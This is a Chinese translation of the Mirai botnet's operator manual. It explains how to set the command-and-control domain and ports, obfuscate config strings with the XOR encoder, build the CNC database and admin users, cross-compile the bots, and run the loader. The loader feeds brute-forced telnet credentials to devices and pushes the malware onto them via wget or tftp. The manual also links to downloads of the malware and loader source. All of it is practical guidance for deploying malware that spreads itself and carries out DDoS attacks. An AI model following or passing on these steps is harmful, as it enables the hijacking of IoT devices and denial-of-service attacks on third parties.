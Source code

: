 Mirai 使用手册

#综述
- 和 CNC 建立连接, bots 会请求解析域名 (resolv.c/resolv.h) 并且连接到域名对应到IP.
- Bots 使用一种高级的 SYN 扫描器 (比qbot快近80倍速度, 少使用接近20倍资源)进行暴力telnet连接. 当发现暴力telnet成功连接, bot 会请求另一个域名上报成功信息. 这是连接到一个单独服务器自动加载到设备的结果.
- 暴力破解结果默认通过48101端口接收. 接收代码在tools目录下的scanListen.go (我曾经试过每秒接收500条 ). 如果采用debug 模式编译, 你能在debug目录看到二进制信息出现.

Mirai 使用一个传播机制自我复制, 但是我称他为 “实时加载”. 总的来说, bots 爆破结果, 发送结果到接收服务器, 将结果发送给加载器. 这个过程 (爆破 -> 接收 -> 加载 -> 爆破) 就是被称为“实时加载”的过程.

加载器能够通过配置多个IP地址解决linux端口限制问题 (可用端口限制, linux 65k连接问题). 我或许同时通过个5 IP有 60k - 70k 出口连接.

#Bot配置
Bot 有些配置信息(table.c/table.h) （./mirai/bot/table.h）是混淆过的,  通常在源文件你可以找到大部分的配置信息描述. 然而,  ./mirai/bot/table.c 这个文件当中的一些配置你必须修改过后才能运行.

- TABLE_CNC_DOMAIN -  CNC 域名 -  mirai 对DDoS 攻击防御非常有趣, 其他人试图攻击我的CNC, 但是我更新IP的速度快过他们找到我新IP速度, lol. 无所谓了 :)
- TABLE_CNC_PORT - CNC 端口, 设置成23
- TABLE_SCAN_CB_DOMAIN - 接收器域名，当发现爆破结果, 这个域名用来接收结果
- TABLE_SCAN_CB_PORT - 接收器端口, 设置成48101.

在 ./mirai/tools 可以找到 enc.c 源文件，必须进行编译，编译输出的信息放到 table.c 源文件里

在 mirai 目录外运行
```
./build.sh debug telnet
```
如果你没有配置交叉编译，你可能会看到一些交叉编译错误，这个是正常的，对于工具编译没有什么影响。

现在, 在 ./mirai/debug 你可以看到二进制运行文件 enc. 混淆过的bot连接信息可以使用下面的例子:
```
./debug/enc string fuck.the.police.com
```
The output should look like this
```
XOR'ing 20 bytes of data...
\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22
```

更新例子里的 TABLE_CNC_DOMAIN 值, 用 enc 工具生成的十六进制的一长串的字符串替换掉. 另外, 你看到 "XOR'ing 20 bytes of data".  源文件类似下面这样:

```
add_entry(TABLE_CNC_DOMAIN, "\x41\x4C\x41\x0C\x41\x4A\x43\x4C\x45\x47\x4F\x47\x0C\x41\x4D\x4F\x22", 30); // cnc.changeme.com
```

替换过后源文件类似下面这样：
```
add_entry(TABLE_CNC_DOMAIN, "\x44\x57\x41\x49\x0C\x56\x4A\x47\x0C\x52\x4D\x4E\x4B\x41\x47\x0C\x41\x4D\x4F\x22", 20); // fuck.the.police.com
```

这些配置有些是字符串有些是数字 (uint16 in network order / big endian).

#CNC配置
```
apt-get install mysql-server mysql-client
```
CNC 需要安装数据库才能使用.然后用下面的命令初始化数据库:

表结构如下:
CREATE DATABASE mirai;

CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);

CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);

CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);

创建数据库. 然后用下面命令增加用户,
```
INSERT INTO users VALUES (NULL, 'josh-G', 'mypasswordblahah', 0, 0, 0, 0, -1, 1, 30, '');
```

然后打开 ./mirai/cnc/main.go 源文件

编辑这些参数

```
const DatabaseAddr string   = "127.0.0.1"
const DatabaseUser string   = "root"
const DatabasePass string   = "password"
const DatabaseTable string  = "mirai"
```

这些参数就是数据库地址和账号密码等信息


#安装配置交叉编译器
交叉编译很简单直接参考下面的地址执行，编译完成必须重启或者重新加载.bashrc环境变量

http://pastebin.com/1rRCc3aD

#编译 CNC+Bot
CNC, bot, 相关代码工具:
1) http://santasbigcandycane.cx/mirai.src.zip - ### THESE LINKS WILL NOT LAST FOREVER
![Alt text](http://i.imgur.com/BVc7qJs.png "Optional title")


2) http://santasbigcandycane.cx/loader.src.zip - ### THESE LINKS WILL NOT LAST FOREVER

怎样编译 + CNC
在 mirai 目录, 运行 build.sh 脚本.

```
./build.sh debug telnet
```
debug模式 会输出debug到 ./mirai/debug 目录（连接信息，状态等等）

```
./build.sh release telnet
```
产品模式 会输出版本到  ./mirai/release 目录（连接信息，状态等等）产生的信息更小（大概60k），编译所有运行文件格式 "mirai.$ARCH" 到./mirai/release目录


[size=x-large]编译 Echo 加载器[/size]
Loader reads telnet entries from STDIN in following format:
[code]ip:port user:pass[/code]
会检测有没有 wget 或者  tftp 并且试着下载，如果没有会自动 类似wget的二进制执行文件。
```
./build.sh
```
如果你有一个文件可以用于加载你可以这样使用
```
cat file.txt | ./loader
```

记住 ulimit! 命令设置系统限制

##其它:
懒得翻了... 反正就是遇到问题无人解答，自己解决。
